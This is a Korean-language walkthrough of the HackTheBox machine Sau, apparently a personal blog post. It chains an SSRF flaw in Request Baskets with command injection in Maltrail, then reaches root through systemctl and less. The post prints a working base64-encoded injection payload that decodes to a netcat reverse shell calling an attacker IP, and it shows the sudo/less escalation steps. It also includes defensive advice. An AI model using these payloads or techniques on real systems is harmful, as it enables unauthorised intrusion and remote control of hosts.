









+++
title = '[HTB] - Sau'
date = 2026-05-18T00:21:00+09:00
draft = false

categories = ["HTB", "pentesting"]
tags = ["HTB", "write-up", "SSRF", "Command Injection", "CVE", "Linux", "systemctl", "GTFOBins", "Maltrail"]
description = "HackTheBox Sau 풀이 — Request Baskets의 SSRF(CVE-2023-27163)로 방화벽 뒤 내부 Maltrail에 접근하고, username 파라미터의 Command Injection으로 쉘을 얻은 뒤 sudo systemctl status의 less에서 GTFOBins 기법으로 root까지 상승한다."
+++

# HTB - Sau (Retired Machine)

## Overview

| 항목 | 내용 |
|------|------|
| OS | Linux (Ubuntu) |
| 난이도 | Easy |
| 포트 | 22 (SSH), 55555 (Request Baskets), 80/8338 (filtered) |
| 공격 체인 | Request Baskets SSRF → 내부 Maltrail 서비스 접근 → username Command Injection → 리버스 쉘 (puma) → sudo systemctl status → less에서 !sh → root |

---

## 배경 지식

### SSRF (Server-Side Request Forgery)

SSRF는 서버가 공격자가 지정한 내부 URL로 요청을 직접 보내도록 유도하는 취약점이다.

```
공격자 → 서버(SSRF 취약점) → 내부 서비스 (방화벽 뒤)
```

외부에서는 방화벽에 의해 직접 접근이 차단된 서비스도, 서버 자신이 요청을 보내는 형태이기 때문에 내부 네트워크 기준으로 접근이 허용된다. 이번 머신에서 80/8338 포트가 nmap에서 `filtered`로 확인됐는데, SSRF를 경유하면 이 포트의 서비스에 도달할 수 있다.

### Request Baskets CVE-2023-27163

Request Baskets는 임의의 HTTP 요청을 수집해서 내용을 분석할 수 있는 오픈소스 서비스다. 각 "basket"이 고유 URL을 가지고 요청을 받아서 저장하고, 설정에 따라 다른 URL로 해당 요청을 **forward**할 수도 있다.

CVE-2023-27163은 이 forward 기능에서 발생한다. forward 대상 URL을 `http://127.0.0.1:80` 같은 내부 주소로 설정해도 아무런 검증이 없기 때문에, 공격자의 요청이 서버 내부 네트워크를 경유해 외부에서 차단된 서비스에 도달하는 SSRF가 성립한다.

```
공격자 → basket URL (55555) → forward → 내부 포트 80/8338
```

### Maltrail v0.53 Command Injection

Maltrail은 DNS 쿼리, HTTP 트래픽 등을 분석해 악의적인 트래픽을 탐지하는 시스템이다. v0.53 이전 버전의 `/login` 엔드포인트에는 `username` 파라미터에 Command Injection이 가능한 취약점이 존재한다.

취약한 코드는 다음과 같다.

```python
subprocess.check_output(
    "logger -p auth.info -t \"maltrail[%s]\" \"%s\" ..." % (os.getpid(), username),
    shell=True
)
```

`username` 값이 큰따옴표 안에 그대로 삽입된다. 단순히 `;id` 같은 페이로드를 넣으면 따옴표 안에 갇혀 리터럴 문자열로 처리된다.

```sh
# ';id' 를 그냥 넣으면
logger -p auth.info -t "maltrail[876]" ";id" ...
# → 명령어 실행 안 됨, 그냥 문자열로 처리
```

여기서 핵심이 **백틱(backtick)**이다. 쉘에서 백틱은 **Command Substitution**으로 동작한다. 큰따옴표 안에 있어도 서브쉘에서 명령어를 실행하고 그 결과로 치환된다.

```sh
# 백틱으로 감싸면
logger -p auth.info -t "maltrail[876]" ";`id`" ...
# → 큰따옴표 안에서도 id 명령어가 실행됨
```

따라서 payload를 백틱으로 감싸면 따옴표 이스케이핑을 우회하고 Command Injection이 성립한다.

### systemctl status + less → GTFOBins Inherit

`systemctl status <서비스>`는 출력이 길 경우 내부적으로 `less`를 호출한다. `less`는 단순한 페이저(pager)처럼 보이지만, 내부에서 `!<명령어>` 형태로 외부 쉘 명령을 실행하는 기능을 가지고 있다.

GTFOBins에서 이 패턴을 "Inherit"으로 분류하는 이유는, `less`가 자신을 실행한 프로세스(여기서는 root 권한 `systemctl`)의 권한을 **그대로 상속**하기 때문이다. `less`에서 `!sh`를 입력하면 fork된 `/bin/sh`도 동일하게 root 권한을 받는다.

```
sudo systemctl status trail.service
  → 내부에서 less 호출 (root 권한)
    → less에서 !sh 입력
      → /bin/sh 실행 (root 권한 상속)
```

---

## 공격 체인 요약

```
nmap → 55555 비표준 포트 확인 (80/8338 filtered)
  → Request Baskets 서비스 접속 → 버전 1.2.1 확인
    → CVE-2023-27163 SSRF 취약점
      → basket forward → 내부 80/8338 포트 접근
        → Maltrail v0.53 확인
          → /login username Command Injection (백틱 우회)
            → mkfifo 리버스 쉘 획득 (puma)
              → sudo -l → systemctl status trail.service (NOPASSWD)
                → less 호출 → !sh → root shell
```

---

## 정찰 (Enumeration)

### 포트 스캔

```bash
sudo nmap 10.129.229.26 -Pn -sCV -oA scans/initial
```

```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     http    Golang net/http server (Request Baskets)
```

55555 비표준 포트에서 Go 기반 HTTP 서버가 실행 중이다. 80과 8338이 `filtered` 상태인 점이 눈에 띈다. 방화벽에 의해 외부에서는 차단되어 있지만, 내부에서는 서비스가 돌고 있을 가능성이 높다.

### 웹 서비스 분석



55555 포트에 접속하면 **Request Baskets** 서비스가 나타난다. 임의의 HTTP 요청을 수집하고 분석하는 서비스로, footer에서 **Version 1.2.1**을 확인할 수 있다.

버전 정보가 확인됐으니 공개 exploit을 바로 조회한다.



**CVE-2023-27163** SSRF 취약점이 존재하는 것으로 확인된다.

---

## 취약점 분석 및 공격

### SSRF로 내부 서비스 접근 (CVE-2023-27163)

Request Baskets의 basket 설정에서 **Forward URL** 기능을 확인했다.



basket을 하나 생성하고 Forward URL을 `http://127.0.0.1:80`으로 설정한다. nmap에서 `filtered`로 확인됐던 80번 포트다.

basket URL로 요청을 보내면 서버가 내부 `127.0.0.1:80`으로 요청을 전달하고, 그 응답이 돌아온다.



내부에서 **Maltrail v0.53**이 실행 중인 것을 확인했다. 버전이 식별됐으니 바로 CVE를 조회한다.



Maltrail v0.53에 RCE 취약점이 존재하는 것으로 확인된다. `/login` 엔드포인트의 `username` 파라미터에 Command Injection이 가능하다.

### Maltrail Command Injection → 리버스 쉘

Metasploit의 `unix/http/maltrail_rce` 모듈을 사용한다. SSRF를 경유해야 하기 때문에 RHOSTS에 basket URL을 지정한다.



Burp로 실제 전송되는 payload를 확인하면 다음과 같다.



```
username=;`echo "..." | base64 -d | sh;#`
```

백틱으로 감싸서 큰따옴표 안에서도 Command Substitution이 동작하도록 한 구조다. 최종적으로 사용한 netcat 리버스 쉘 payload:



```
username=;`echo+"bWtmaWZvIC90bXAva2RheDsgbmMgMTAuMTAuMTQuMTg4IDQ0NDQgMDwvdG1wL2tkYXggfCAvYmluL3NoID4vdG1wL2tkYXggMj4mMTsgcm0gL3RtcC9rZGF4"+|+base64+-d+|+sh;#`
```

base64 디코딩 결과:
```bash
mkfifo /tmp/kdax; nc 10.10.14.188 4444 0</tmp/kdax | /bin/sh >/tmp/kdax 2>&1; rm /tmp/kdax
```

---

## Foothold

```bash
[*] Started reverse TCP handler on 10.10.14.188:4444
[+] The target appears to be vulnerable. Version Detected: 0.53
[*] Command shell session opened

id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

puma 유저로 쉘을 획득했다.

---

## 권한 상승 (Privilege Escalation)

### sudo -l 확인

```bash
sudo -l
```

```
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

패스워드 없이 `systemctl status trail.service`를 root 권한으로 실행할 수 있다. GTFOBins에서 `systemctl`을 검색한다.



**Inherit** 항목이 핵심이다. `systemctl status`는 출력이 길 경우 내부적으로 `less`를 호출하는데, `less`에서 `!sh`를 입력하면 less가 상속받은 root 권한 그대로 `/bin/sh`가 실행된다.

### systemctl → less → root shell

```bash
sudo systemctl status trail.service
```

```
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled)
     Active: active (running) since Sun 2026-05-17 15:20:29 UTC; 2h 2min ago
   Main PID: 876 (python3)
...
lines 1-23
```

less 페이저가 열린 상태에서 `!sh`를 입력한다.

```
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

root shell을 획득했다.

---

## Flags

```bash
cat /home/puma/user.txt
cat /root/root.txt
```

---

## 배운 것들

### 이번 머신의 핵심 깨달음

80/8338 포트가 `filtered`로 나왔을 때 "막혀있다"로 끝내면 안 된다. **방화벽이 외부에서 막고 있을 뿐, 내부에서는 열려 있다.** SSRF 같은 우회 경로가 있을 때 이 포트들이 바로 공격 대상이 된다. nmap에서 `filtered`로 보이는 포트는 오히려 흥미로운 시그널로 읽어야 한다.

privesc에서 60분을 낭비한 이유는 GTFOBins에서 Inherit 항목을 제대로 읽지 않아서였다. GTFOBins에서 바이너리를 검색하면 Shell, Sudo, SUID, Capabilities 외에 **Inherit** 항목이 있는 경우가 있다. 이건 해당 바이너리가 내부적으로 다른 프로그램(pager, editor 등)을 호출하고 그 프로그램이 쉘을 spawn할 수 있는 경우다. `systemctl status`가 `less`를 호출한다는 것, `less`에서 `!sh`로 쉘을 열 수 있다는 것 — 둘 다 모르면 절대 떠올릴 수 없는 경로다. GTFOBins를 빠르게 훑을 때 Inherit 섹션도 반드시 확인하는 습관을 들여야 한다.

### 막혔던 지점 분석

| 막힌 지점 | 원인 | 교훈 |
|-----------|------|------|
| systemctl 권한상승 (60분) | `systemctl status`가 내부적으로 `less`를 호출하는지 몰랐음 | GTFOBins Inherit 항목 반드시 확인 |
| less에서 쉘 spawn | `!sh` 사용법 미숙 | pager 계열 프로그램에서 `!<cmd>` 패턴 숙지 |

### 공격 체인 각 요소 정리

| 요소 | 역할 |
|------|------|
| nmap `filtered` 포트 인식 | 방화벽 차단된 내부 서비스 존재 가능성 시사 |
| Request Baskets forward 기능 | SSRF 진입점 |
| CVE-2023-27163 | forward URL 무검증으로 내부 포트 접근 |
| Maltrail v0.53 | `/login` username Command Injection |
| 백틱(Command Substitution) | 큰따옴표 안에서 Command Injection 우회 |
| sudo systemctl status | less 호출 체인 진입 |
| GTFOBins Inherit (`!sh`) | less에서 root 권한 쉘 spawn |

### 다음에 비슷한 상황을 만나면

- nmap에서 `filtered` 포트 발견 → SSRF 취약점이 있으면 경유 대상으로 바로 등록
- 오픈소스 서비스 + 버전 노출 → searchsploit / exploit-db / Google 즉시 조회
- `sudo -l`에서 바이너리 확인 → GTFOBins에서 **Inherit 항목까지** 확인
- `systemctl status` 실행 시 → 터미널 크기를 줄여서 less 페이저를 강제로 띄운 뒤 `!sh`

### 방어 관점 (Blue Team)

| 공격 벡터 | 방어 방법 |
|---------|---------|
| SSRF (forward URL 무검증) | 허용 도메인/IP 화이트리스트, 내부 IP 대역 차단 |
| Maltrail username Command Injection | 입력값 검증, `shell=True` 대신 인자 리스트 방식 사용 |
| sudo 권한 과다 부여 | 최소 권한 원칙, 위험 바이너리 sudo 허용 전 GTFOBins 검토 |
| less에서 쉘 spawn | pager를 `PAGER=cat`으로 고정하거나 systemd 출력 리다이렉션 |

---

## 관련 글

- [HTB - Sense](/posts/sense/) — 버전 식별 → 공개 CVE → Command Injection으로 이어지는 동일한 foothold 패턴.
- [HTB - Vaccine](/posts/vaccine/) — `sudo -l`에서 발견한 바이너리를 GTFOBins로 권한 상승하는 같은 계열의 privesc(vi GTFOBin).
- [HTB - Oopsie](/posts/oopsie/) — username/입력 파라미터를 통한 Command Injection 변형.
